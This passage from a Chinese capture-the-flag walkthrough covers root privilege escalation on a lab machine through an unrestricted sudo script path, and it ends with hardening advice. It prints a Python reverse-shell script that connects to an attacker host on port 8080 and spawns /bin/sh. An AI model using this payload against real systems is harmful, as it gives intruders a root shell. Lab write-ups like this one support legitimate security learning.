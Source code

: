 
{{< image src="https://image.p1nant0m.com/202307161728008.png" caption="scripts that owned by Administrator" src_s="https://image.p1nant0m.com/202307161728008.png" src_l="https://image.p1nant0m.com/202307161728008.png" >}}

在对代码进行审计后，我们发现full-chekcup Action中没有对传入的脚本文件路径进行限制，进而可以进行任意代码执行，


{{< image src="https://image.p1nant0m.com/202307161728704.png" caption="fragile point of the script execute logic" src_s="https://image.p1nant0m.com/202307161728704.png" src_l="https://image.p1nant0m.com/202307161728704.png" >}}

找到一个可以写的目录（/home/svc）并在其中创建一个名为full-checkup.sh的文件，其中的内容如下（我们可以从[https://gtfobins.github.io/](https://gtfobins.github.io/ "https://gtfobins.github.io/")中获得相关的payload），最后其中的文件内容如下,

```bash
#!/usr/bin/python3
import sys,socket,os,pty;
s=socket.socket()
s.connect('PRIVATE_IP', 8080)
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")
```

故技重施，我们在控制服务器上使用netcat监听8080端口接收回弹的Shell，最终获得以root用户运行的终端，

{{< image src="https://image.p1nant0m.com/202307161730297.png" caption="Get shell under the root user" src_s="https://image.p1nant0m.com/202307161730297.png" src_l="https://image.p1nant0m.com/202307161730297.png" >}}

最终也是读取了root.txt中存储的FLAG！

{{< image src="https://image.p1nant0m.com/202307161732018.gif" caption="Target Website" src_s="https://image.p1nant0m.com/202307161732018.gif" src_l="https://image.p1nant0m.com/202307161732018.gif" >}} 

### 📖 总结复盘

1. 我是如何获得该站点服务器上的普通用户权限的？

通过站点使用的具有漏洞的组件实现nday RCE漏洞利用。

2. 我是如何发现漏洞点的？

站点上暴露了所使用组件的版本信息，通过公开数据库可以查询到对应组件的对应版本时候存在相关的漏洞，实现打靶第一步。

3. 如何进行进一步提权的？

提权的方式可以千奇百怪、脑洞大开（但也可以遵循一定的[Checklist](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist "Checklist")来确保自己的机器是安全的）但大多数时候都是因为人员的疏忽导致的。以本靶机为例，cody用户能够执行的sudo的操作仅有一条并且原意是让其在 `/opt/scripts` 的目录中执行，但其忽略了对文件路径进行相关的限制，致使攻击者能够在任意可以进行写操作的目录中构造恶意脚本，并成功以root身份执行，最终实现提权。

4. 如何进行安全加固?

-   避免使用不安全的组件或依赖，在系统上线前可以通过各种类型的扫描工具(SAST, DAST, IAST...)在业务上线前确保没有中、高危漏洞存在
-   生产环境中部署服务的环境尽可能的精简，除服务正常运行所需的文件以外不应该存在任何其它的文件数据，更不能将高权限用户的身份凭证直接存放于生产环境之中
-   口令不可重复使用，重复使用的口令意味着当该口令泄露时所有与此相关的服务都存在失陷的风险
-   对于运维管理所必须存在的普通账户来说，需要严格限制其能够使用sudo的场景，对相关的参数进行过滤限制，必要时限制其能够登入的网络地址。
